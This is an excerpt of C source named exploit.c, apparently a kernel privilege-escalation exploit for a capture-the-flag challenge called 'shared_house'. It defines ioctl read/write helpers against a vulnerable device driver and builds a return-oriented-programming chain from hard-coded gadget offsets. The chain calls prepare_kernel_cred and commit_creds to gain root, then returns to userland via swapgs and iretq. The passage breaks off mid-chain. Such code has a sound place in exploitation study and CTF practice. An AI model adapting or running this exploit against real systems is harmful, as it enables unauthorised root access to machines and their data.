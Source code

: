 ```exploit.c
}

void _write(char *buf, uint size){
  printf("[+] write: %p %x\n", buf, size);
  assert(current_size != INF && size <= current_size);
  assert(current_size != -1);
  struct query q = {
    .buf = buf,
    .size = size
  };
  int tmp = ioctl(shfd, SH_WRITE, &q);
  assert(tmp!=FAIL1 && tmp!=FAIL2);
}

void _read(char *buf, uint size){
  printf("[+] read: %p %x\n", buf, size);
  assert(current_size != INF && size <= current_size);
  struct query q = {
    .buf = buf,
    .size = size
  };
  int tmp = ioctl(shfd, SH_READ, &q);
  assert(tmp!=FAIL1 && tmp!=FAIL2);
}
// (END shared_house)

/*********** MAIN *********************************/

struct _msgbuf80{
  long mtype;
  char mtext[0x80];
};

void gen_chain(ulong **a, const ulong kernbase)
{
  scu pop_rdi = 0x11c353;
  scu prepare_kernel_cred = 0x69e00;
  scu rax2rdi_rep_pop_rbp = 0x1877F; // 0xffffffff8101877f: mov rdi, rax ; rep movsq  ; pop rbp ; ret  ;  (1 found)
  scu commit_creds = 0x069c10; // 0xffffffff81069c10
  scu pop_rcx = 0x368fa; // 0xffffffff810368fa: pop rcx ; ret  ;  (53 found)
  scu pop_r11 = 0xe12090; // 0xffffffff81e12090: pop r11 ; ret  ;  (2 found)
  scu swapgs_pop_rbp = 0x03ef24; // 0xffffffff8103ef24:       0f 01 f8     swapgs
  scu iretq_pop_rbp = 0x1d5c6; // 0xffffffff8101d5c6:   48 cf   iretq

  save_state();

  *a++ = pop_rdi + kernbase;
  *a++ = 0;
  *a++ = prepare_kernel_cred + kernbase;
  *a++ = pop_rcx + kernbase;
  *a++ = 0;
  *a++ = rax2rdi_rep_pop_rbp + kernbase;
  *a++ = 0;
  *a++ = commit_creds + kernbase;

  *a++ = swapgs_pop_rbp + kernbase;
  *a++ = 0;
  *a++ = iretq_pop_rbp + kernbase;
  *a++ = &NIRUGIRI;
  *a++ = user_cs;
  *a++ = user_rflags;
  *a++ = user_sp;
```